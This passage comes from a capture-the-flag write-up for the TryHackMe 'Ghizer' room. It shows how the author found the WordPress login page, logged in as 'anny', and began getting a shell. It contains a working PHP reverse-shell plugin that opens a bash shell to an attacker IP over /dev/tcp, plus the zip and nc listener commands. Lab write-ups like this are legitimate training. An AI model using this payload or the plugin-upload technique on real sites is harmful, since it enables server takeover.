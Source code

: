 Found it! The login url is: `/devtools`

### Finding Login URL in WordPress 2 - WordPress Meta `Log in`

**If you scoll down to the bottom of the WordPress home page, you'll see there is a `Log in` url under the `Meta` header:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Ghizer/images/a5.png)

- Login URL: `/?devtools`

Armed with this information, **we can login to the WordPress admin panel with the `anny` user credentials!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Ghizer/images/a6.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Ghizer/images/a7.png)

I'm in!

Next, to get a shell, we can **add a reverse shell plugin**!

**To do so, I'll:**

- Create a PHP reverse shell and zip it:

**PHP reverse shell for WordPress plugin:**
```php
<?php 
/**
* Plugin Name: Revshell
* Author: siunam
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/10.8.27.249/443 0>&1'")
?>
```

```                                                                                                        
┌──(root🌸siunam)-[~/ctf/thm/ctf/Ghizer]
└─# zip revshell.zip revshell.php
```

- Upload it:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Ghizer/images/a8.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Ghizer/images/a9.png)

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Ghizer]
└─# nc -lnvp 443
listening on [any] 443 ...
```
